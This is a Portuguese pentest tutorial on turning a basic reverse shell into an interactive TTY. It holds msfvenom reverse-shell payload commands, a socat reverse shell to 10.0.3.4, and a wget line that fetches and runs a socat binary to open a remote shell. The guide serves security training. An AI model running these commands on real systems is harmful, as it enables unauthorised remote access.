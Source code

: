 ```yaml
---
title: Upgrading Shells
categories: [Tutorial]
tags: [comandos, linux, utilitário, shell, tty, bash]
date: 2025-03-30T14:32:00r
render_with_liquid: false
---
```


# 🖥️ Programas com Shells comuns

> 📌 **Descrição:**  
> Quando pegamos uma Reverse Shell simples, nem todos os recursos ficam liberados e disponíveis. Isto faz com que os demais processos relacionados ao Pentest demorem mais. Alguns dos recursos limitados são:
> - `STDERR` não é mostrado
> - Não é possível usar VIM
> - Comandos como `su` ou `ssh` não são acessíveis
> - Sem controle sobre histórico, tab-complete, etc

## 📂 Gerando uma Reverse Shell com msfvenom

### Gerando reverse com Netcat

```bash
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Gerando reverse com Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=10.0.3.4 LPORT=4444 R
```

## 🐚 Upgrading Shell

### Upgrading Shell com Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Upgrading Shell com Socat

Na máquina Kali:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Na máquina alvo:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Se o `socat` não estiver instalado, podemos tentar executar o upgrade enquanto baixamos o `socat` pelo github

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Upgrading Shell com Netcat/Magic

Comaçamos chamando um PTY como no primeiro comando, mas deixamos ele em segundo plano usando o `CTRL+Z`

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Agora, vamos visualizar as configurações atuais do STTY para que consigamos deixar ambos estejam equivalentes

```bash
echo $TERM
stty -a
```

Enquanto o STTY ainda está em background, vamos definir a STTY atual para `raw`

```bash
stty raw -echo
```

agora execute os dois comandos

```bash
fg
reset
```

por final, fazendo o STTY que voltou com o `fg` equivaler ao STTY do Kali

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

Em resumo:

```bash
# In reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
